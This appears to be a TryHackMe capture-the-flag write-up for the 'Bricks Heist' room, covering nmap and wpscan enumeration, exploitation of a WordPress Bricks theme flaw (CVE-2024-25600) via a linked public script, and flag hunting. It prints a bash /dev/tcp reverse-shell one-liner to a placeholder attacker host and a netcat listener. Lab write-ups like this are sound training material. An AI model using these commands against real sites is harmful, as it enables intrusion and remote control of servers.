

# 📝 Bricks Heist – TryHackMe Writeup

---

## 🔍 Enumeration

### Nmap Scan
💡Pro tip: scan for all open port then to a detailed scan on open ones  
```bash
nmap -p- --min-rate=2000 -oN allport.nmap $IP
```
```bash
nmap -sC -sV -vv -p$1, $2, $3 -oN detaile.nmap $IP
```
  
   
Open PORTS: 22, 80, 443, 3306   

### PORT 443
Note: add `$MACHINE-IP  bricks.thm` to /etc/hosts  
   
   
checked a few directories/files like `/robot.txt` `wp-admin` but nothing useful

### WPSCAN
```bash
wpscan --url https://brick.thm --disable-tls-checks
```
  
  

From the scan we found out that its using `Bricks theme V 1.9.5`. After searchin gfor potential exploits for this on google  
Found Out:[**CVE-2024-25600.py**](https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/blob/main/CVE-2024-25600.py)  

---
## 💥Exploitation

### Web Shell
```bash
python3 Downloads/CVE-2024-25600.py --url https://bricks.thm
```
  

Right now this is just a web shell that is the input is going through a php code that is being run on a server.  
Getting a reverse shell from web shell:  
Set up listener,
```bash
nc -nvlp 1234
```
Bash Reverse Shell,
```bash
bash -i >& /dev/tcp/<ATTACKER-IP>/1234 0>&1
```

---
## Flags
1.hidden.txt
```bash
find -name hidden.txt
```
2.Service associated
```bash
ps aux 
```
  
3.Sus Process  
```bash
systemctl status <service name>
```
  
4. Log file  
```bash
cd /lib/NetworkManager
```
  
5.Wallet adresss  
Using cyberChef to decode a doubly encoded base 64 hex. We get two bc adresses. Used blockchain to verify them;  
   
   
6.Threat Group   
Researching about the bc wallet address on google + chatGPT


